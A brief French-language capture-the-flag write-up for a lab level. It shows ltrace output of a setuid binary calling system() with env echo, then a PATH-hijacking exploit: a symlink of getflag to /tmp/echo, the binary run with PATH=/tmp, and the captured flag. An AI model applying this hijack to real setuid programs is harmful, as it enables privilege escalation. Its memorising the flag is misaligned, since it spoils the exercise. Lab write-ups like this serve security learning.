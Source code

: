 # Level 03

- `ltrace ./level03`
<pre>
__libc_start_main(0x80484a4, 1, 0xffb03b24, 0x8048510
getegid()                                 = 1000
geteuid()                                 = 1000
setresgid(1000, 1000, 1000, 0xf7d42d15)   = 0
setresuid(1000, 1000, 1000, 0xf7d42d15)   = 0
<strong>system("/usr/bin/env echo Exploit me")   = 0</strong> 
--- SIGCHLD (Child exited) ---
+++ exited (status 0) +++
</pre>
- Une commande est executé alors on desside de faire passer getflag pour echo
- `ln -s /bin/getflag /tmp/echo`
- `PATH=/tmp ./level03`
- flag: `qi0maab88jeaj46qoumi7maus`
